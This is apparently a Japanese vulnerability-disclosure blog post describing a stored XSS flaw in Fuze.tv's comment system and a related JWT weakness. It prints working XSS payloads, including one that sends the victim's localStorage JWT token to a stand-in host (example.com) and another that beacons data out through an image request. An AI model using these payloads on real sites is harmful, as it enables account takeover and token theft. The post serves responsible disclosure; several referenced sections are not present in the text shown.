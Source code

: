 ```yaml
---
title: "Fuze.tvに脆弱性を見つけた話"
date: 2021-07-28T18:11:51+09:00
draft: false
categories: [セキュリティ]
tags: ["脆弱性", "XSS"]
---
```


### TL;DR

Fuze.tv のコメントに蓄積型 XSS を投稿することが可能であり、  
[下記の方法](#攻撃シナリオ)から Fuze.tv を利用する約 55 万人[^1]すべてのユーザーに影響を及ぼすことが可能だった。  
また[JWT の実装不備](#JWTの実装不備)もあり、結果的に完全なサービス妨害に繋げることができた。

[^1]: [ダウンロード数](https://www.overwolf.com/app/fuze_tv-fuze_tv)より推定

![](/fuze.tv-high-impact-xss/1.png)

### Fuze.tv とは

ゲームのクリップを共有するサイト。  
クライアントは Overwolf に依存。

### 調査理由

友達が使っていて面白そうだと思ったので、バグがないか探してみることにした。

### 初期調査

コメントに XSS が投稿できないか WAF を調べてみる。  
すると`<script>`は削除されてしまい、また http/https や href の文字 が `<a href>` タグ に変換されることが分かった。  
次に html タグが埋め込めないか確認したところ XSS が発火。  
このときはまだ限定的な条件下での攻撃と考えていた。

```html
<XSS onpointerup="alert(1)"<h1>XSS</h1></XSS>
```

```html
<div class="comments-content">
    <div compile-content-parser="::$ctrl.item.message">
        <vuln onpointerup="var i=new Image;i.src="http://example.com/?"+123;" class="ng-scope"><h1>Crafted comment</h1>
        </vuln>
    </div>
</div>
```

```html
<video>
  <source onerror=location=/\example.com/+localStorage.getItem("jwt_token")>
</video>
```


[^2]: https://datatracker.ietf.org/doc/html/rfc6749#section-10.4